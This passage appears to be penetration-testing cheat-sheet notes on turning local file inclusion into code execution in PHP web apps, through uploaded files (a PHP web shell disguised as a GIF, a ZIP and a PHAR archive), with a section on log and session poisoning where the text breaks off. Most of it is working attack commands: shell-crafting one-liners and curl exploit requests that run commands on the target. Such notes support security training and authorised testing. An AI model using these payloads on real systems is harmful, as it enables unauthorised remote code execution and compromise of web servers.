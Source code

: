 ### File Uploads
- GIF Image Upload
	- Craft the malicious Image and upload it.
		``` bash
		echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
		```
	- We can find the file path through the HTML code of the site or through the URL 
		``` HTML
		<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
		```
	- Include the uploaded file in the LFI vulnerable function
		``` bash
		curl "http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id"
		```
- Zip Upload (zlib:// bzip2:// zip:// wrappers to execute PHP code. This wrapper isn't enabled by default) 
	- Craft the malicious ZIP and upload it.
		``` bash
		echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
		```
	- Include the uploaded file in the LFI vulnerable function
		``` bash
		curl "http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id"
		```
- Phar Upload
	- Create `shell.php`
		``` PHP
		<?php
		$phar = new Phar('shell.phar');
		$phar->startBuffering();
		$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
		$phar->setStub('<?php __HALT_COMPILER(); ?>');
		
		$phar->stopBuffering();
		```
	- compile it into a `phar` file and rename it to `shell.jpg` and upload it.
		``` bash
		php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
		```
	- Include the uploaded file in the LFI vulnerable function
		``` bash
		curl "http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id"
		```
### Log Poisoning
Writing PHP code in a field we control that gets logged into a log file, and then include that log file to execute the PHP code.
For this attack to work, We should have read privileges over the logged files and the vulnerable function has execute privileges.
#### PHP Session Poisoning
- Most PHP web apps utilize `PHPSESSID` cookies to save user data on the back-end
	- `/var/lib/php/sessions/sess_<PHPSESSID_cookie_value>`  on Linux
	- `C:\Windows\Temp\sessions\sess_<PHPSESSID_cookie_value>` on Windows
